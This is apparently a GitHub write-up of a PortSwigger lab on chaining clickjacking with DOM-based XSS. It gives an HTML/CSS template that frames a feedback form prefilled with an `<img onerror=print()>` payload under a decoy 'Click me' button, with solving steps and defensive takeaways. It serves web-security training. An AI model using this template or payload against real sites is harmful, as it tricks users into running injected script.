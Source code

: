 # Clickjacking - Exploiting clickjacking vulnerability to trigger DOM-based XSS

## 📌 Lab Details
- **Title**: Exploiting clickjacking vulnerability to trigger DOM-based XSS
- **Difficulty**: Practitioner
- **Category**: Clickjacking
- **Lab URL**: https://portswigger.net/academy/labs/launch/d259e02fbd358d4b88e4de6938c6bcd31a3c35a7ba4fc54fa4352a3822990f24?referrer=%2fweb-security%2fclickjacking%2flab-exploiting-to-trigger-dom-based-xss

## 🔍 Summary
This lab demonstrates combining **Clickjacking with stored XSS** by framing the feedback form with a prepopulated XSS payload, tricking the victim into clicking “Click me” while actually triggering `print()` via the XSS when the victim clicks.

## 🛠 Steps to Solve
1. Inject the **XSS** modified payload on the **Exploit** server:
   ```sh
   <style>
	iframe {
		position:relative;
		width:$width_value;
		height: $height_value;
		opacity: $opacity;
		z-index: 2;
	}
	div {
		position:absolute;
		top:$top_value;
		left:$side_value;
		z-index: 1;
	}
   </style>
   <div>Click me</div>
   <iframe
   src="YOUR-LAB-ID.web-security-academy.net/feedback?name=<img src=1 onerror=print()>&email=hacker@attackerwebsite.com&subject=test&message=test#feedbackResult"></iframe>
   ```
2. Adjust the values of the template to align the `Click me` button with the `Submit feedback` button.
3. Deliver exploit to the victim to complete the lab.
   
## 📖 Key Takeaways
- Uses a **prepopulated URL with an XSS payload** (`<img src=1 onerror=print()>`) to execute JavaScript on click.
- Highlights the need for **anti-clickjacking and XSS defenses together** to prevent such chained attacks.
- Shows how **Clickjacking can be used to exploit XSS that requires user interaction**.

## 🖼️ Screenshot 
![image](https://github.com/user-attachments/assets/e3371a7f-cd70-4dd3-a81c-633522d69887)
![image](https://github.com/user-attachments/assets/b1430c2b-09ab-4dc1-b203-415d89f6f7c6)
![image](https://github.com/user-attachments/assets/29b0b755-fdaa-4577-b18b-adba75e7c4a7)

